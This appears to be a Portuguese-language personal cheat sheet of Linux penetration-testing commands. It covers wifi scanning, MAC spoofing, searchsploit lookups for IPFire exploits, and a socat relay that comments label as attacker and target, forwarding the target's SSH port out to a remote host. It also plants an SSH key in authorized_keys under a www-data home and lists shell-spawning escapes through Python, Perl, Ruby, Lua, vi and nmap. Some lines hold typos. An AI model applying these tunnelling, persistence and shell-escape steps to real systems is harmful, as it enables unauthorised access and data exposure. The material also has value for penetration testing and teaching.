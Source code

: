 # Comandos Linux



# Wifi no terminal

- sudo iwconfig  // dispositivos wifi
- sudo iwlist wlan0 scan  // listando redes wifi 
- sudo iwlist wllan0 scan | grep ESSID  // listando redes wifi, filtrando apenas nomes
- nmcli d wifi connect SSIDredeWifi password suasenha // conecta na rede wifi

- macchanger -r eth0
- macchanger -p eth0
- macchanger -m mac eth0

- ipcalc 192.168.1.1/255.255.255.0
-------------
- searchsploit "ipfire" --exclude="algum|outra"
- searchsploit -e "ipfire"
- searchsploit "ipfire" --id
- searchsploit "ipfire" --id -m 44433
- searchsploit "ipfire" -m 44433.py
-------------
- socat TCP-LISTEN:8443,reuseaddr,fork TCP-LISTEN:2222,reuseaddr    #ouvindo atacante
- socat TCP4:172.20.1.6:8443 TCP4:127.0.0.1:22                      #maquina alvo
-----------
- ssh-keygen -f minhachave #criando chave publica ssh
- mkdir ~www-data
- mkdir ~/.ssh/
- touch ~/.ssh/authorized_keys
- echo "key ssh-rsa" > ~/.ssh/authorized_keys
- -----------------
# Shell Spawning

- python -c 'import pty; pty.spawn("/bin/sh")'
- echo os.system('/bin/bash')
- /bin/sh -i
- perl —e 'exec "/bin/sh";'
- perl: exec "/bin/sh";
- ruby: exec "/bin/sh"
- lua: os.execute('/bin/sh')
- (From within IRB)
- exec "/bin/sh"
- (From within vi)
- :!bash
- (From within vi)
- :set shell=/bin/bash:shell
- (From within nmap)
- !she
